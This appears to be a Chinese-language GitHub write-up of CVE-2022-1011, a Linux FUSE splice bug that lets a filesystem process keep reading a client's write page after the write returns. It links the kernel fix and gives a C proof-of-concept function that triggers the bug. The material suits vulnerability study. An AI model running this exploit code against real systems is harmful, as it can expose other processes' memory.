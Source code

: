 # CVE-2022-1011
修复链接：https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit?id=0c4bcfdecb1ac0967619ee7ff44871d93c08c909
该漏洞主要是由于漏洞的主要只由于splice的异步的特性，导致可以在用户文件系统进程中（服务端）保留服务请求的进程（客户端）的一段内存。文件系统进程在write关闭后仍然保持着对write源内存页的引用（文件系统进程只有读的权限，个人感觉危害不大:(）。
核心的逻辑如下，当客户端的page放入pipe之后，先向客户端回复fuse的write请求让write结束，这时pipe中仍然保留write的src的page的引用，再write结束之后再读取src的内容。
```c
void fuse_do_write(fd)
{
    fflush(stdout);
    puts("-----------------------");
    puts("[+] start do_write");

    // splice read requset from pipe
    puts("[+] create pipe");
    int pfd[2], ret;
    ret = pipe(pfd);
    if (ret < 0)
        fatal("pipe");
    size_t bufsize = getpagesize() + 0x1000;
    ret = splice(fd, NULL, pfd[1], NULL, bufsize, 0);
    if (ret < 0)
        fatal("splice");

    // 通过splice读取头部；
    struct fuse_in_header in;
    ret = read(pfd[0], &in, sizeof(struct fuse_in_header));
    if (ret < 0)
        fatal("read head");
    fuse_show_req_head(&in);

    puts("[+] send reply finish write");//回复write请求
    struct fuse_write_out outarg;
    outarg.size = 1;
    outarg.padding = 0;
    printf("unique: %d\n", in.unique);
    fuse_send_reply(fd, &outarg, sizeof(outarg), 0, in.unique);

    // 阻塞等待子进程write结束
    int t = 0;
    do
    {
        fflush(stdout);
        puts("[+] input 1 to contine, other to block");
        scanf("%d", &t);
        puts("[+] ...");

    } while (t != 1);

    struct fuse_write_in inarg;
    struct fuse_bufvec bufv;
    ret = read(pfd[0], &inarg, sizeof(struct fuse_write_in));
    if (ret < 0)
        fatal("read write in");

    printf("[+] write in:\n");
    printf("\tfh:\t%lld\n", inarg.fh);
    printf("\toffset:\t%lld\n", inarg.offset);
    printf("\tsize:\t%d\n", inarg.size);
    printf("\twrite_flags:\t%d\n", inarg.write_flags);
    printf("\tlock_owner:\t%llx\n", inarg.lock_owner);
    printf("\tflags:\t%d\n", inarg.flags);
    printf("\tpadding:\t%d\n", inarg.padding);

    ret = read(pfd[0], &bufv, sizeof(bufv)); //客户端write结束以后再读取page
    printf("bufv:\t%s\n", (char *)&bufv);

    puts("[+] end do_write");
    close(pfd[0]);
    close(pfd[1]);
}
```
